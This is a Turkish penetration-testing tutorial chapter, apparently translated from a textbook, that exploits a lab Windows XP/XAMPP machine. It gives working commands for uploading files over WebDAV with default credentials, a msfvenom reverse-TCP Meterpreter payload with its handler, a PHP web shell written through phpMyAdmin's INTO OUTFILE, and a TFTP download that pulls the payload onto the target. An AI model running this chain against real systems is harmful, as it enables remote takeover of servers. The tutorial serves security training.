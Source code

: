 ### Exploitation

Tüm hazırlık çalışmalarımızdan sonra, zevkli bir bölüme gelmiş bulunmaktayız: _exploitation_. Bu bölümde bulmuş olduğumuz açıklardan sızma yapmayı deneyeceğiz.

#### WebDAV Varsayılan Kimliğinden Sızma

Hatırlıyorsanız önceki bölümlerde Windows XP sistemimizde bulunan XAMPP kurulumu WebDAV erişimi için varsayılan değerleri kullandığı öğrenmiştik. Bundan faydalanarak web sunucusuna Cadaver ile dosya yükleyebiliriz. Denememiz için basit bir dosya oluşturalım:

```ShellSession
root@kali:~# cat test.txt
test
```

Şimdi Cadaver'i kullanarak _wampp:xampp_ kimliği ile giriş yapacağız:

```ShellSession
root@kali:~# cadaver http://192.168.20.10/webdav
Authentication required for XAMPP with WebDAV on server `192.168.20.10': Username: wampp
Password:
dav:/webdav/>
```

Son olarak, _test.txt_ dosyasını yüklemek için WebDAV'ın `put` komutu kullanıyoruz.

```ShellSession
dav:/webdav/> put test.txt
Uploading test.txt to `/webdav/test.txt':
Progress: [=============================>] 100.0% of 5 bytes succeeded. 
dav:/webdav/>
```

Eğerde /webdav/test.txt adresine gidersek, dosyamızın sunucuya başarıyla yüklendiğini göreceğiz.

##### Hedefimizdeki Web Sunucusunda Script Çalıştırma

Yüklemiş olduğumuz text dosyası pek işimize yaramaz; onun yerine web sunucusuna script dosyasını yükleyip onu nasıl çalıştırılacağına bir bakalım. Eğer Apache sunucusu bir sistem yazılımı olarak kurulduysa, ozaman sistem taraflı bir yetki; değilse de Apache sunucusunu başlatan kimsenin yetkisiyle çalışacaktır. Her iki durumda da sunucuya script dosyamızı yüklememiz yeterli olacaktır. Bunun için bir PHP dosyası oluşturup sunucuya atalım. 

```ShellSession
dav:/webdav/> put test.php
Uploading test.php to `/webdav/test.php':
Progress: [=============================>] 100.0% of 5 bytes succeeded. 
dav:/webdav/>
```

##### Msfvenom Payload Yükleme

Direkt olarak PHP dosyalarını yükleme işlemine ek olarak, Msfvenom kullanarak sunucuya yükleme yapma amaçlı Metasploit payload'ını yaratabiliriz. İlk önce `-l` değerini vererek PHP payload listesine bir göz atalım

```ShellSession
root@kali:~# msfvenom -l payloads 
#1  php/bind_perl               Listen for a connection and spawn a command
                                    shell via perl (persistent)
    php/bind_perl_ipv6          Listen for a connection and spawn a command
                                    shell via perl (persistent) over IPv6
    php/bind_php                Listen for a connection and spawn a command
                                    shell via php
    php/bind_php_ipv6           Listen for a connection and spawn a command
                                    shell via php (IPv6)
#2  php/download_exec           Download an EXE from an HTTP URL and execute it
    php/exec                    Execute a single system command
#3  php/meterpreter/bind_tcp    Listen for a connection over IPv6, Run a
                                    meterpreter server in PHP
    php/meterpreter/reverse_tcp Reverse PHP connect back stager with checks
                                    for disabled functions, Run a meterpreter
                                    server in PHP
    php/meterpreter_reverse_tcp Connect back to attacker and spawn a
                                    Meterpreter server (PHP)
    php/reverse_perl            Creates an interactive shell via perl
    php/reverse_php             Reverse PHP connect back shell with checks
                                    for disabled functions
    php/shell_findsock
```

Msfvenom bize birkaç seçenek sunmakta: 1. Shell yaratma, 2. Dosyayı indirme ve sistemimizde çalıştırabilme, 3. Meterpreter kullanma. Bunların herhangi birini kullanarak sistemi kontrol altına alabiliriz, ama burda _php/meterpreter/reverse_tcp_ kullanalım. Payload'mızı belirledikten sonra, `-o` değeri ile kullanacabileceğimiz seçenekleri bulabiliriz:

```ShellSession
root@kali:~# msfvenom -p php/meterpreter/reverse_tcp -o 
[*] Options for payload/php/meterpreter/reverse_tcp

--snip--
Name    Current Setting  Required    Description
----    ---------------  --------    -----------
LHOST                    yes        The listen address 
LPORT   4444             yes        The listen port
```

Gördüğnüz gibi _LHOST_ ile hangi IP adresine _LPORT_ hangi porta bağlanacağını gösterebiliriz. Bu payload zaten PHP formatında olduğu için `-f` değeri ile asıl (raw) haliyle çıktı alınmasını söyleriz. 

```ShellSession
root@kali:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2323 -f raw > meterpreter.php
```

Sonrasında ise WebDAV kullanarak yüklüyoruz.

```ShellSession
dav:/webdav/> put meterpreter.php
Uploading meterpreter.php to `/webdav/meterpreter.php':
Progress: [=============================>] 100.0% of 1317 bytes succeeded.
```

Scripti çalıştırmadan önce Msfconsole ayarını yapmamız gerekir: 

```ShellSession
msf > use multi/handler
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.20.9
lhost => 192.168.20.9
msf exploit(handler) > set LPORT 2323
lport => 2323
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.20.9:2323
[*] Starting the payload handler...
```

Web tarayıcısında yüklemiş olduğumuz payload çalıştırdığımızda Meterpreter oturumu açlır ve Msfconsole ekranında:

```ShellSession
[*] Sending stage (39217 bytes) to 192.168.20.10
[*] Meterpreter session 2 opened (192.168.20.9:2323 -> 192.168.20.10:1301) at
2015-01-07 17:27:44 -0500
meterpreter >
```

Meterpreter komutu olan `getuid` ile açtığımız oturumun sızdığımız makinede yetkisini öğrenebiliriz. Genel olarak sızdığımız uygulamanın yetkisini almış oluyoruz

```ShellSession
meterpreter > getuid 
BOOKXP\SYSTEM
```

Şimdi bizim sistem yetkimiz var, yani bu Windows sistemini ful kontrol altına almak demektir. 

#### Açık phpMyAdmin'e Sızma

Aynı hedefimizde açık phpMyAdmin kurulumu olduğunu da biliyoruz, bu bize veritabanı sunucusunda komutları çalıştırmaya yardımcı olacaktır. Apache gibi MySQL sunucusunda da ya sistem yetkisi ya da çalıştıran kişinin yetkisi vardır. WebDAV de olduğu gibi dosyaları yükleyebilir, sunucuda MySQL sorgularını çalıştırabiliriz.

İlk önce http://192.168.2.10/phpmyadmin adresine gidelim, ve üst kısımda bulunan SQL sekmesini açalım. Remote shell ulaşmak için web sunucusuna MySQL scriptlerini yazacağız. Uzaktan sistemi kontrol etmek için SQL SELECT komutunun çıktısını PHP dosyalarına alacağız.

XAMPP Apache varsayılan olarak Windows sistemlerinde C:\xampp\htdocs\ dizininde bulunmakta. Yazacağımız komut  `SELECT <script metni> INTO OUTFILE web_sunucusu_dizini` şeklinde olacaktır:

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"
```

Tamamlamış halini phpMyAmin panelinde çalıştıralım ve http://192.168.2.10/shell.php adresine giderek yeni oluşturduğumuz dosyayı açalım. Bu script 

```
Warning: system() [function.system]: Cannot execute a blank command in C:\ xampp\htdocs\shell.php on line 1
```

hatasını verecektir. `cmd` parametresi için hedefimizdeki sistemde hangi komutu çalıştırmak istediğmize dair bir değer vermemiz lazım. Örnek olarak, Windows XP sisteminde parametre olarak `ipconfig` atayalım.

```ShellSession
http://192.168.20.10/shell.php?cmd=ipconfig
```

Sonuç aşağıdaki gibi:

##### TFTP ile Dosya İndirme

Kali sistemizde dosyaları barındırmak için Atftpd TFTP sunucusunu kullanabiliriz. Atftpd daemon modunda başlatalım, _meterpreter.php_ scirptinin olduğu yerden

```ShellSession
root@kali:~# atftpd --daemon --bind-address 192.168.20.9 /tmp
```

`cmd` parametresi olarak _shell.php` scriptini atayalım

```
http://192.168.20.10/shell.php?cmd=tftp 192.168.20.9 get meterpreter.php
C:\\xampp\\htdocs\\meterpreter.php
```

Bu komut hedemizdeki Apache sunucusuna TFTP yardımıyla _meterpreter.php_ dosyasını çeker. Sonuç olarak `Transfer successful: 1373 bytes in 1 second, 1373 byte/s`

Şimdi biz http://192.168.2.10/meterpreter.php adresine giderek Meterpreter shell'ini açabiliriz. 


* Exploiting Open phpMyAdmin
    * Downloading a File with TFTP
* Downloading Sensitive Files
    * Downloading a Configuration File
    * Downloading the Windows SAM
* Exploiting a Buffer Overflow in Third-Party Software
* Exploiting Third-Party Web Applications